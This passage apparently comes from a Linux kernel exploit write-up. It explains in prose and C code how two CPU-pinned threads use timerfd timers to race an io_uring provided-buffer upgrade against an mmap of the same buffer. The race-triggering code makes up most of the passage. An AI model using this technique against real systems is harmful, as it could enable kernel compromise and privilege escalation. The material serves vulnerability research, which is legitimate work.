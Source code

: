 The upgrade thread sets a timer using the CPU 0 timeout value just before attempting to upgrade the pbuf.

``` c
int main(int argc, char *argv[])
{
    // [...]
    // ==================== upgrade thread (cpu-0) ====================
    pin_on_cpu(0);
    while (1) {
        // [...]

        struct itimerspec new = { .it_value.tv_nsec = timeout_upgrade_thread_cpu0 };
        pthread_barrier_wait(&barrier);
        {
            timerfd_settime(tfd_for_upgrade_cpu0, TFD_TIMER_CANCEL_ON_SET, &new, NULL);
            
            // Upgrade 0x69 pbuf from a empty legacy selected buffer to a ring buffer.
            struct io_uring_buf_reg reg = {};
            reg.pad |= IOU_PBUF_RING_MMAP;
            reg.ring_entries = 1;
            reg.bgid = 0x69;

            SYSCHK(io_uring_register(ioring_fd, IORING_REGISTER_PBUF_RING, &reg, 1));
        }
        pthread_barrier_wait(&barrier);
        // [...]
    }
    // [...]
}
```

Similarly, the mmap thread sets its timer based on the CPU 1 timeout value just before mmap-ing the target pbuf.

``` c
void *race_mmap_thread(void *arg)
{
    // ==================== mmap thread (cpu-1) ====================
    pin_on_cpu(1);
    while (1) {
        struct itimerspec new = { .it_value.tv_nsec = timeout_mmap_thread_cpu1 };
        void *ptr;
        
        pthread_barrier_wait(&barrier);
        {
            timerfd_settime(tfd_for_mmap_cpu1, TFD_TIMER_CANCEL_ON_SET, &new, NULL);
            
            // Try to map the 0x69 io_buffer_list.
            ptr = mmap(NULL, 0x1000, PROT_READ | PROT_WRITE, MAP_SHARED, ioring_fd, IORING_OFF_PBUF_RING + (0x69 << IORING_OFF_PBUF_SHIFT));
            if (ptr != MAP_FAILED) {
                munmap(ptr, 0x1000);
            }
        }
        pthread_barrier_wait(&barrier);
    }
}
```
